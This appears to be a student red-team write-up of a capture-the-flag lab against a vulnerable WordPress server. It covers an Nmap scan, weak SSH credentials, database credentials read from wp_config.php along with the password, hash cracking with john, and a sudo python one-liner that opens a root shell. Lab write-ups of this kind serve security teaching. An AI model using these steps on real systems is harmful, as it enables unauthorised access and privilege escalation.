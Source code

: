 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![alt text](https://github.com/juan-desu/Attack-Defense-Analysis-of-a-Vulnerable-Network/blob/main/flags/Nmap%20result%20scans.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios/smb)
  - Port 445 (netbios/smb)

The following vulnerabilities were identified on each target:
- Target 1
   - SSH with Password
-Users are able to ssh into the machine with simply a password, rather than requiring an SSH key.
-User michael had an incredibly weak password (same as his username).
   - python can run with sudo
- User steven has the ability to run python with sudo
- Python can execute arbitrary code on the system, so it is trivial to get a shell with root access using this loophole
   - Database credentials in plain text
- Database credentials for the wordpress site were found written in plain text, and stored in the /var/www/html/wp_config.php.
- This allowed us to access the mysql database used for the site, and extract password hashes and other confidential information.
   - CVE-2017-3167
- Authentication bypass is possible on the version of Apache running on the server
   - CVE-2017-7494
- Version of samba running on the server is insecure and allows for remote code execution

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      -Weak Password / SSH with password
	-After SSHing into the host with michael's credentials, we were able to search the /var/www/html directory for flag1. 
      - Command run
	-ssh michael@192.168.1.100
-cd /var/www/html
-grep -ER flag1

![alt text](https://github.com/juan-desu/Attack-Defense-Analysis-of-a-Vulnerable-Network/blob/main/flags/flag%201.png)
 
 - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      -Weak Password / SSH with password
	-After SSHing into the host with michael's credentials, flag2 was found right in /var/www
      - Command run_
	- ssh michael@192.168.1.100
- cd /var/www
- cat flag2.txt

![alt text](https://github.com/juan-desu/Attack-Defense-Analysis-of-a-Vulnerable-Network/blob/main/flags/Flag%202.png)

- `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Database credentials in plain text
	- After getting the database credentials from /var/www/html/wp_config.php, we connected to the mysql database and searched for the flag.
      - Command run
	- ssh michael@192.168.1.100
- less /var/www/html/wp_config.php
- mysql --user root --password # Password is R@v3nSecurity
-mysql> SELECT post_title, post_content FROM wp_posts WHERE post_title LIKE "flag%";
- This returned the value for flag 3

![alt text](https://github.com/juan-desu/Attack-Defense-Analysis-of-a-Vulnerable-Network/blob/main/flags/Flag%203-4.png)

  - `flag4.txt`: flag4.txt: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - python can run with sudo
	-After cracking steven's password using john and the hash found in the database, we determined that user steven could run python with sudo permissions.
-This allows us to use python as sudo to execute a shell program, thereby granting us access to the root account.
- flag4.txt was found in the /root directory, the root account's home directory.

      - Commands run
- python -c 'import os; os.system("/bin/sh")'
- cat flag4.txt

![alt text](https://github.com/juan-desu/Attack-Defense-Analysis-of-a-Vulnerable-Network/blob/main/flags/Flag%204.png)
